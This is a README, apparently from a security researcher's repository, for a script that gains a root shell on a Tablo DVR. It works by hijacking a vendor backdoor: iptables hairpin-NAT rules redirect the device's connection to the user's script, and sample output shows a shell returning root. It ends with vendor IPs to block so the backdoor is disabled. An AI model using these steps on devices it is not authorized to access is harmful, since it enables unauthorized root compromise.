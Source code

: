 # Tablo RRS Hijack

An easy way to get root into your Tablo DVR using Hairpin NAT on your network.

In research of the Tablo DVR, it was found that a default-disabled root backdoor existed for engineers. Thankfully it doesn't run by default, but it can be enabled by Tablo at any time. In good news for researchers, which we can "hijack" this to gain a root shell on the device without the need for the root password!

You can find my writeup on this device, and a few others, on my personal blog at https://snt.sh/

## Prereqs

For this to work, you need to setup a hairpin NAT on your network for `3.93.161.222:5012`. Below is an example of what this looks like for linux based routers, but your implementation may vary:

    iptables -t nat -A PREROUTING -d 3.93.161.222 -p tcp --dport 5012 -j DNAT --to IPOFHOSTRUNNINGTHESCRIPT:5012
    iptables -t nat -A POSTROUTING -s YOURLOCALSUBNET/24 -d IPOFHOSTRUNNINGTHESCRIPT -p tcp --dport 5012 -j MASQUERADE

Remember to change out IPOFHOSTRUNNINGTHESCRIPT and YOURLOCALSUBNET with your values! This ONLY WORKS if you setup hairpin NAT correctly!!!

## Usage

To use this root script, please follow the Prereqs and then do the following:

1. Install the requirements.txt
    ```
    pip3 install -r ./requirements.txt
    ```

2. Start up the script
    ```
    ./tablo-rrs-hijack.py
    ```

3. On your running Tablo device, press the reset button 3 times fast. After doing so, you should see a new LED blink pattern
4. You should see the Tablo connect to your script you are running, and then provide you with a root shell! If not, double check your Hairpin NAT is working and you entered the correct IP address information.
    ```
    $ ./tablo-rrs-hijack.py
    Starting our Socket Server on 10.XXX.XXX.XXX:5012...
    Tablo at 10.XXX.XXX.XXX connected!
    Payload sent! Starting up shell, please wait for the Tablo to connect...
    Connected to 10.XXX.XXX.XXX:XXXXXX
    # whoami
    whoami
    root
    # 
    ```

## How to block the backdoor

If the fact Tablo has a root backdoor into this device bothers you, then you can block their ability to enable it at a network level. Below are the IPs and ports used by Tablo to enable the rrs binary. Blocking these will prevent it from being able to work correctly.

    3.93.161.222 5012
    72.142.116.106 25001
